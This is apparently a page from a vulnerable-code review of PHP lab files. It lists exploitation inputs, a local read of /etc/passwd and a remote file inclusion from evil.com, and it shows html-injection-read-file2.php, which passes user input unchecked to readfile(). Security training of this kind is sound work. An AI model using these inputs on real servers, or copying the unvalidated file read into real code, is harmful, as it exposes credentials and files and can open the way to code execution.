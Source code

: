 
### **Exploitation Examples:**

* Local file read:
  `?filename=/etc/passwd`
* Remote file inclusion:
  `?filename=https://evil.com/malicious.txt`

---

### **Security Implications:**

* Disclosure of sensitive files, credentials, and keys.
* Potential remote code execution if chained with other vulnerabilities.
* Server info and code leakage.

---

### **Summary:**

The code is vulnerable because it allows arbitrary file reading based on untrusted input. No mitigations have been applied per request.

---

## **2. Vulnerable Code Review: html-injection-read-file2.php**
```php
html-injection-read-file2.php
```

```php
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>Html Injection Read File 2</title>
</head>
<body>
<h1>Html Injection Read File 2</h1>
<form action="html-injection-read-file2.php" method="POST">
  <label for="filename">Choose a File:</label>
  <select name="filename" id="filename">
    <option value="index.html">Index.html</option>
    <option value="robots.txt">robots.txt</option>
  </select>
  <br><br>
  <input type="submit" name="submit" value="submit">
</form>
<pre>
<?php
if (isset($_POST['submit'])) {
  $filename = $_POST['filename'];
  echo readfile($filename);
}
?>
</pre>
</body>
</html>
```

---